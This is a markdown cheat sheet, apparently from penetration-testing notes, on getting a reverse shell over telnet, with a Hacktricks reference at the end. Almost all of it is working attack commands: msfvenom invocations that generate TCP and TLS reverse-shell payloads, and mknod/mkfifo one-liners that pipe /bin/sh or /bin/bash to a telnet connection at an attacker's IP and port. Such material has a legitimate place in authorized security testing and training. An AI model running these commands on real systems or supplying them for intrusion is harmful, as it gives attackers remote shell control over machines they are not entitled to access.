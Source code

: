 # Telnet

## 01 - Generate a payload via `msfvenom`

### 1.1 - TCP Method

```
$ msfvenom -p cmd/unix/reverse shellpath=/bin/sh [telnetpath=/path/to/telnet] lhost=<IP> lport=<PORT>
```

### 1.2 - TLS Method

You can include TLS certificate to encrypt communication.

```
$ msfvenom -p cmd/unix/reverse_ssl_double_telnet shellpath=/bin/sh [telnetpath=/path/to/telnet] handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

Generate a reverse shell telnet via bash prompt.

```
$ msfvenom -p cmd/unix/reverse_bash_telnet_ssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

## 02 - One-liners

### 2.1 - `mknod`

```
$ mknod backpipe p && telnet <attacker_IP> <attacker_PORT> 0<backpipe | /bin/bash 1>backpipe; rm -f backpipe
```

### 2.2 - `mkfifo`

```
$ mkfifo /tmp/f && telnet <attacker_IP> <attacker_PORT> 0</tmp/f | /bin/sh 1>/tmp/f; rm -f /tmp/f

$ TF=$(mktemp -u); mkfifo $TF && telnet <attacker_IP> <attacker_PORT> 0<$TF | /bin/sh 1>$TF; rm -f $TF
```

### 2.3 - Wacky

Open two listeners of `netcat`. The first port is for sending commands and the second is for the output.

```
$ telnet <attacker_IP> <attacker_PORT_1>  | /bin/sh | telnet <attacker_IP> <attacker_PORT_1>

$ telnet <attacker_IP> <attacker_PORT_1>  | /bin/bash | telnet <attacker_IP> <attacker_PORT_1>
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/shells/shells/linux.html)